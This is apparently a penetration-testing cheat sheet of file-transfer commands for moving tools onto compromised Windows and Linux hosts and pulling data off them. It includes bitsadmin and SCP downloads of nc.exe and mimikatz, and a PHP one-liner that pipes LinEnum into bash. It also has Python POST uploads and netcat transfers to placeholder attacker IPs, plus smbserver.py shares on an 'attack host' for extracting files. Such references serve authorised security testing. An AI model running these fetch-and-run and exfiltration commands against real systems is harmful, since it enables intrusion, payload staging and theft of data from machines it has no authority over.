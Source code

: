 # File Transfert - 

% linux, windows

## Download a file using Bitsadmin
```
bitsadmin /transfer n http://10.10.10.32/nc.exe C:\Temp\nc.exe
```

## Download a file using Wget
```
wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh -O /tmp/LinEnum.sh
```

## Download a file using cURL
```
curl -o /tmp/LinEnum.sh https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
```

## Download a file using PHP
```
php -r '$file = file_get_contents("https://<snip>/LinEnum.sh"); file_put_contents("LinEnum.sh",$file);'
```

## Upload a file using SCP
```
scp C:\Temp\bloodhound.zip user@10.10.10.150:/tmp/bloodhound.zip
```

## Download a file using SCP
```
scp user@target:/tmp/mimikatz.exe C:\Temp\mimikatz.exe
```

## Uses smbserver.py to create a share on a linux-based attack host. Can be useful when needing to transfer files from a target to an attack host.
```
python3 smbserver.py -smb2support CompData /home/<nameofuser>/Documents/
```

## Uses smbserver.py with password support (in case GPO blocks anonymous access) to create a share on a linux-based attack host. Can be useful when needing to transfer files from a target to an attack host.
```
python3 smbserver.py -username snovvcrash -password 'Passw0rd!' -smb2support share $(pwd)
```
## Mount disk on a drive
```
Cmd > net use Z: \\10.10.14.153\share /u:snovvcrash 'Passw0rd!'
```

## Python2 - urlretrieve
```
python2.7 -c 'import urllib;urllib.urlretrieve ("<URL>", "<file>")'
```
## Python3 - urlretrieve
```
python3 -c 'import urllib.request;urllib.request.urlretrieve("<URL>", "<file>")'
```

## PHP - download file file_get_content()
```markdown
php -r '$file = file_get_contents("<URL>"); file_put_contents("<file>",$file);'
```

## PHP - download file fopen()
```markdown
php -r 'const BUFFER = 1024; $fremote = fopen("<URL>", "rb"); $flocal = fopen("<file>", "wb"); while ($buffer = fread($fremote, BUFFER)) { fwrite($flocal, $buffer); } fclose($flocal); fclose($fremote);'
```

## PHP - Download and pipe it to bash
```
php -r '$lines = @file("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"); foreach ($lines as $line_num => $line) { echo $line; }' | bash
```

## Ruby - download a file
```markdown
ruby -e 'require "net/http"; File.write("<file>", Net::HTTP.get(URI.parse("<URL>")))'
```
## Python - upload/POST a file
```
python3 -c 'import requests;requests.post("http://<IP>:<PORT>/upload",files={"files":open("<file>","rb")})'
```

## nc - send file to compomised host
```
nc -q 0 <IP> <PORT> < <file>
```

## nc - send file to compomised host
```
nc -l -p <PORT> -q 0 < <file>
```

## netcat - send file to compomised host
```
ncat --send-only  <IP> <PORT> < <file>
```

## nc - recv file from listening port
```
nc -l -p <PORT> > <file>
```

## netcat - recv file from listening port
```
netcat -l -p <PORT> --recv-only > <file>
```

## certreq - upload/POST file
```markdown
certreq.exe -Post -config <URL> <output_file>
```

## Bitstransfert - file donwload
```markdown
Import-Module bitstransfer; Start-BitsTransfer -Source "<URL>" -Destination "<output_file>"
```

## chrome user agent - download file
```
$UserAgent = [Microsoft.PowerShell.Commands.PSUserAgent]::Chrome
Invoke-WebRequest http://<IP>:<PORT>/<file> -UserAgent $UserAgent -OutFile "<outfile>"
```

## Create a SMB share on linux with a NFS block fs, mount it on windows
```
# 1. Create NFS block fs of size2GB
dd if /dev/zero of=NTFS.DISK bs=1024M count=2

# 2. Mount on loopback device
losetup -fP NTFS.DISK # -f: find first unused device, -P : create a partitioned loop device

# 3. Format the block to the desired fs
sudo mkfs.ntfs /dev/loop<NUMBER>

# 4. Mount the fs
sudo mount /dev/loop<NUMBER> <YOUR MOUNTPOINT>

# 5. Edit the smbd daemon conf, add a share by adding the following lines
# /etc/samba/smb.conf
[<SHARE NAME>]
  comment = foo
  path = <YOUR MOUNTPOINT>
  browseable = yes
  read only = no
  guest ok = yes

# 6. Restart sbmd.service
sudo systemctl restart smbd

# 7. Mount smb share from Windows on the X: share
net use x: \\<ATTACKER IP>\<SHARE NAME>
net use x: /delete # to delete
```
